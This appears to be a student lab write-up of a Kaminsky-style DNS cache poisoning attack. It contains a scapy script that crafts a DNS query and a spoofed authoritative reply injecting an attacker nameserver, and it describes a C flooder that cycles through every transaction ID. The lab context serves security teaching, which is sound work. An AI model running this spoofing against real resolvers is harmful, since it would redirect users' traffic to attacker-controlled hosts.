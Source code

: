 
```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'aaaaa.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# DNS Query
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=33333, chksum=0)
request = ip/udp/dns

# Save the packet to a file
with open('ip_req.bin', 'wb') as f:
    f.write(bytes(request))

# Spoofed DNS reply
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
    qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst=apoloIP, src=nsIPs[0])
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns
with open('ip_resp.bin', 'wb') as f:
    f.write(bytes(reply))
```

In the C program, we load the request packet from the `ip_req.bin` file and response packet from the `ip_resp.bin` file, and use it as our packet template, based on which we create many similar packets, and flood the target local DNS servers with these spoofed replies. For each reply, we change three places: the **transaction ID** and the **prefix name** (prefix.example.com) occurred in two places (the question section and the answer section). The transaction ID is at a fixed place (offset 28 from the beginning of our IP packet), but the offset for the prefix depends on the length of the domain name. We can use a binary editor program, such as bless, to view the binary file `ip.bin` and find the two offsets of the prefix. In our packet, they are at offsets 41 and 64, as mentioned in the lab guidelines. We also edited the authoritative name servers to be the same as the ones for the `example.com` domain. This offset was at 12 from the beginning of the packet, as it can be calculated using the `ipheader` struct provided in the C script. 

So, in an infinite loop, we first generate a random prefix and set the random domain name of the DNS request that will trigger the DNS local server to perform an iterative search to try to fetch the IP address for that random domain and invoke the `send_dns_request` function that will simply send that packet. We also set the random domain for the DNS spoofed reply both in the question and answer field, as mentioned, and invoke the `send_dns_response` function. This function loops through all the 16-bit transaction id values and in each iteration set the different `example.com` legitimate name servers in the packet and send the two spoofed replies.
